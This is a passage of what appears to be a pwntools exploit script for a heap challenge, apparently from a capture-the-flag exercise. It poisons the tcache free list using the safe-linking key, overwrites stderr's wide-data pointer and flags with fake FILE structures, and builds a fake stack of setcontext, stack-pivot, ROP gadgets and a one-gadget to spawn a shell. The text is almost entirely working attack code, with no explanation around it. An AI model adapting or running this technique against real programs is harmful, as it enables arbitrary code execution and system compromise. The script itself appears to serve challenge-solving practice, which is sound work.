 ################-OBERWRITING-STDERR-WIDE_DATA-POINTER-###############################
delete(3)
delete(6)
delete(4)
overwrite = b"a"*24 + p64(0x21) + p64((key ^ (wide_data)))
second_chunk = create(0xe8,overwrite)
victim5_chunk = create(15,"Victim")
overwrite = p64(fake_widedata_entry) + p64(0)
stdout_pointer7 = create(16,overwrite)
#####################################################################################

################-OBERWRITING-STDERR-FLAGS-&_IO_read_ptr-POINTER-#####################
delete(3)
delete(7)
delete(4)
overwrite = b"a"*24 + p64(0x21) + p64((key ^ (stderr)))
second_chunk = create(0xe8,overwrite)
victim5_chunk = create(15,"Victim")
overwrite = p64(0xfbad2000) + (p64(fake_widedata_entry))
stdout_pointer6 = create(18,overwrite)
#####################################################################################

###############-ADDING-ROP-GADGETS-TO-FAKE-STACK-####################################
delete(3)
stack_pivot = fake_widedata_entry + 168 + 8
pop_rsi = libc + 0x0000000000030081
pop_rdx_r12 = libc + 0x00000000001221f1
shell = b"/bin/zsh"
ret = libc + 0x1aa854
onegadget = libc + 0xeeaa2
fake_stack = libc + 0xeeaa2
fake_stack = b"\x00"*32
fake_stack += p64(setcontext)
fake_stack += b"\x00"*64
fake_stack += p64(handle)
fake_stack += b"\x00"*48
fake_stack += p64(stack_pivot)
fake_stack += p64(pop_rsi)
fake_stack += p64(0)
fake_stack += p64(pop_rdx_r12)
fake_stack += p64(0)
fake_stack += p64(0)
fake_stack += p64(onegadget)
fake_stack += b"\x00"*8
fake_stack += p64(fake_widedata_entry)
second_chunk = create(0xe8,fake_stack)
#####################################################################################

####################-TRIGGERING-STDERR-##############################################
write(15,"no","no")
io.recvuntil(b"NO SPACE FOR NEW NOTE !!")
banner()
#####################################################################################
